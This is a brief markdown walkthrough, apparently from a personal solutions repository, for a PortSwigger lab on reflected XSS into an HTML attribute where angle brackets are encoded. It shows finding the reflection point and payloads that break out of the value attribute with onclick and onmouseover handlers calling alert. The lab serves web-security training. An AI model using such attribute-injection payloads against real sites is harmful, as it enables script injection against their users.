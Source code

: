 # Lab: Reflected XSS into attribute with angle brackets HTML-encoded
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

```bash
# Search

abc1234

# After that view page source and look for abc1234

 <h1>0 search results for 'abc1234'</h1>

<input type=text placeholder='Search the blog...' name=search value="abc1234">
```

```bash
<input type=text placeholder='Search the blog...' name=search value="abc1234">

# search this
"onclick='alert(1)'

# click to searchbox to activate onclick.
  
# You can also search this too these events are working in <input>

"onmouseover= 'alert()'

```

